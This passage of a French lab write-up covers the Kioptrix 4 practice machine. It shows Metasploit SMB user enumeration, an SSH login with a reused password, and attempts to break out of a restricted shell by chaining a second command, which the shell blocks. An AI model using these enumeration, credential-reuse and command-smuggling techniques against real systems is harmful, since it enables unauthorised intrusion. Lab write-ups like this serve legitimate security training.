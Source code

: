 Une petite énumération SMB au cas où :  

```plain
msf auxiliary(smb_enumusers) > show options

Module options (auxiliary/scanner/smb/smb_enumusers):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS     192.168.1.39     yes       The target address range or CIDR identifier
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass    MyNameIsJohn     no        The password for the specified username
   SMBUser    john             no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads

msf auxiliary(smb_enumusers) > exploit

[*] 192.168.1.39:139      - 192.168.1.39 KIOPTRIX4 [ nobody, robert, root, john, loneferret ] ( LockoutTries=0 PasswordMin=5 )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Strength To Endure
------------------

Il y a un utilisateur *john* comme sur le site qui a bien sûr le même mot de passe :  

```plain
$  ssh john@192.168.1.39
john@192.168.1.39's password: 
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
john:~$ ls -al
total 28
drwxr-xr-x 2 john john 4096 Feb  4  2012 .
drwxr-xr-x 5 root root 4096 Feb  4  2012 ..
-rw------- 1 john john   61 Feb  4  2012 .bash_history
-rw-r--r-- 1 john john  220 Feb  4  2012 .bash_logout
-rw-r--r-- 1 john john 2940 Feb  4  2012 .bashrc
-rw-r--r-- 1 john john  118 Feb 14 05:43 .lhistory
-rw-r--r-- 1 john john  586 Feb  4  2012 .profile
john:~$ cat .lhistory
*** unknown command: cat
john:~$ ll; cat .lhistory
*** forbidden syntax -> "ll; cat .lhistory"
*** You have 0 warning(s) left, before getting kicked out.
This incident has been reported.
john:~$ ls | cat .lhistory
*** forbidden syntax -> "ls | cat .lhistory"
*** Kicked out
Connection to 192.168.1.39 closed.
```
